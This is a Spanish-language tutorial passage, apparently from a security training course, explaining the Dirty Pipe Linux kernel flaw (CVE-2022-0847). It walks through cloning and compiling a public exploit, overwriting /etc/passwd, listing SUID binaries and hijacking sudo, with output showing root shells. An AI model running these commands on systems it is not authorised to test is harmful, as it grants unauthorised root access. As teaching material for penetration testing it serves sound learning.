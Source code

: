Una vulnerabilidad en el kernel de Linux, llamada [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), permite la escritura no autorizada en archivos del usuario root en Linux. Técnicamente, la vulnerabilidad es similar a la vulnerabilidad [Dirty Cow](https://dirtycow.ninja/) descubierta en 2016. Todos los kernels desde la versión `5.8` hasta la `5.17` están afectados y son vulnerables a esta vulnerabilidad.

En términos simples, esta vulnerabilidad permite a un usuario escribir en archivos arbitrarios siempre que tenga acceso de lectura a estos archivos. También es interesante notar que los teléfonos Android también están afectados. Las aplicaciones Android se ejecutan con derechos de usuario, por lo que una aplicación maliciosa o comprometida podría tomar el control del teléfono.

Esta vulnerabilidad se basa en pipes. Los pipes son un mecanismo de comunicación unidireccional entre procesos que son particularmente populares en sistemas Unix. Por ejemplo, podríamos editar el archivo `/etc/passwd` y eliminar el aviso de contraseña para el root. Esto nos permitiría iniciar sesión con el comando `su` sin el aviso de contraseña.

Para explotar esta vulnerabilidad, necesitamos descargar un [PoC (Proof of Concept)](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) y compilarlo en el sistema objetivo o en una copia que hayamos hecho.

### Download Dirty Pipe Exploit

```r
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

Después de compilar el código, tenemos dos exploits diferentes disponibles. La primera versión del exploit (`exploit-1`) modifica el archivo `/etc/passwd` y nos da un prompt con privilegios de root. Para esto, necesitamos verificar la versión del kernel y luego ejecutar el exploit.

### Verify Kernel Version

```r
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

### Exploitation

```r
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

Con la ayuda de la segunda versión del exploit (`exploit-2`), podemos ejecutar binarios SUID con privilegios de root. Sin embargo, antes de poder hacer eso, primero necesitamos encontrar estos binarios SUID. Para esto, podemos usar el siguiente comando:

### Find SUID Binaries

```r
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Luego podemos elegir un binario y especificar la ruta completa del binario como un argumento para el exploit y ejecutarlo.

### Exploitation

```r
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambas
```